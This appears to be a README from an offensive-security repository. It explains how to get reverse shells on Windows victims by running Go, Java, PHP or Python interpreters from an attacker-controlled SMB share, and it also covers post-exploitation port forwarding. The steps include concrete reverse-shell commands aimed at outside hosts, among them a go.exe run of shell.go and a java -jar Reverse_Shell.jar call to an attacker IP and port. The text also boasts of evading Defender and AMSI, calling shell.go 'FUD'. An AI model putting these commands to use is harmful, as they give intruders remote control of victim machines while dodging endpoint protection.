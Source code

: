 # LOI Bins (Living off the Island) Binaries - A remote SMB Island in the middle of nowhere
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This is my collection of ways to Execute Code in a number of different Programming Languages on a Victim Windows Host which doesnt have the environment installed.

This is nothing ground breaking, but I havent seen this technique documented anywhere. As long as you have the right environment installed on your Attacker Controlled Windows Device you can essentially run any code you wish in memory. 

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)
3. [PHP](#example-with-php)
4. Python - See here https://github.com/deeexcee-io/Eazee-As-Py

Post exploitation Techniques

1. [Python Port Forward - No SSH](#port-forward-example)
2. [Python Interpreter in Memory](#python-interpreter-example)

## Set the Scene

Lets say you have command execution on a host, your going to want to run a command to return a reverse shell. I would normally for something like `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.169',4444);........" `

Now with this aproach we have AMSI and Defender/AV. Running something like this without an AMSI bypass or obfuscation will get killed. Assuming our victim can reach out over SMB, we could either copy files over and execute or just execute an .exe straight from the share which is nothing new.

This approach does that but what we can do is call the .exe of our programming language of choice and also pass it a script, both of which are stored on our attacker controlled SMB share. Defender still scans the scripts but by utilising **Go, Java, PHP etc** we have more flexibility to bypass static signatures. Testing with random un-obfuscated reverse shell scripts in these languages has proved successful.

You can also utilise these programming languages to carry out post exploitation in weird and wonderful ways. You could even just call python.exe from the remote share and drop straight into the [Interpreter](#python-interpreter-example). 

The process is extremely simple.

## <a name="Go"></a>Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)

## <a name="PHP"></a>Example with PHP

Same as above. Install PHP on Windows and call the php.exe application and reverse shell script.

![image](https://user-images.githubusercontent.com/130473605/235460758-c8660755-0280-4eac-a53a-4a73e0d0dfb3.png)

Catch Shell in Kali

![image](https://user-images.githubusercontent.com/130473605/235460817-62909b39-33fc-4e5c-9de9-17e057bec08a.png)


## <a name="PF"></a>Port Forward Example

## Post Exploitation

In this example you have a HTTP Server listening on localhost and want to exploit it (My Nessus Server in this case port 8834)


![image](https://user-images.githubusercontent.com/130473605/235459846-d72eb2f6-b35a-49f7-9ea4-faf5e8ef3a03.png)


Point to remote share and port forward script telling the host to listen on port 22222 and forward any traffic to 127.0.0.1:8834 (nessus)

![image](https://user-images.githubusercontent.com/130473605/235459541-ddb4806d-4ab0-41e4-8886-63ec8c2f2791.png)

This opens up an external port which you can then browse to. You can now access the Internal HTTP Server on your attacking machine. 

![image](https://user-images.githubusercontent.com/130473605/235460235-828b6079-1920-4907-a91c-6d8461a0b86d.png)

## <a name="PF"></a>Python Interpreter Example

Its as simple as pointing to a remote share which then loads python into memory. 

![image](https://user-images.githubusercontent.com/130473605/235461798-2cc3bada-d39e-48f7-82d1-d6a207d600ae.png)

![image](https://user-images.githubusercontent.com/130473605/235464000-614a31d4-8847-413f-8a21-15826483bbbf.png)

